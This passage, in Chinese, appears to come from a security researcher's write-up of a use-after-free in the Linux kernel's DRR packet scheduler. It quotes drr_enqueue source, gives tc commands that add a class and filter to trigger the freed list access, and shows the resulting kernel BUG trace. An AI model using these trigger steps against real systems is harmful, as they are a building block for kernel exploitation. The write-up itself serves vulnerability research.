 為了觸發 UAF，我們必須要再次存取 active list，最快的方式就是讓其他 class object 第一次成功 enqueue packet。

```c
static int drr_enqueue(struct sk_buff *skb, struct Qdisc *sch,
               struct sk_buff **to_free)
{
    // [...]
    first = !cl->qdisc->q.qlen;
    // [...]
    if (first) {
        list_add_tail(&cl->alist, &q->active);
        cl->deficit = cl->quantum;
    }
    // [...]
}
```

為此我們需要先透過下面的 command 新增一組 class object，

```bash
#!/bin/sh
tc class add dev lo parent 2: classid 2:1 drr quantum 60
tc filter add dev lo parent 2: prio 100 protocol ip handle 87 fw classid 2:1
```

並再次發送 packet enqueue，就能成功觸發 list_add corruption 的錯誤訊息。

```
[   17.630787] list_add corruption. prev->next should be next (ffff888006894980), but was 0000000000000000. (prev=ffff8880069f72d0).
[   17.641788] kernel BUG at lib/list_debug.c:32!

# [...]

[   17.652411] Call Trace:
[   17.653613]  <TASK>
[   17.654426]  ? die+0x33/0x90
[   17.654858]  ? do_trap+0xe0/0x110
[   17.655023]  ? __list_add_valid_or_report+0x74/0x90
[   17.655093]  ? do_error_trap+0x6a/0x90
[   17.655142]  ? __list_add_valid_or_report+0x74/0x90
[   17.655207]  ? exc_invalid_op+0x4e/0x70
[   17.655719]  ? __list_add_valid_or_report+0x74/0x90
[   17.655791]  ? asm_exc_invalid_op+0x16/0x20
[   17.656154]  ? __list_add_valid_or_report+0x74/0x90
[   17.656217]  ? __list_add_valid_or_report+0x74/0x90
[   17.656435]  drr_enqueue+0x200/0x260
[   17.657204]  drr_enqueue+0xca/0x260
[   17.657260]  dev_qdisc_enqueue+0x1d/0x90

# [...]
```


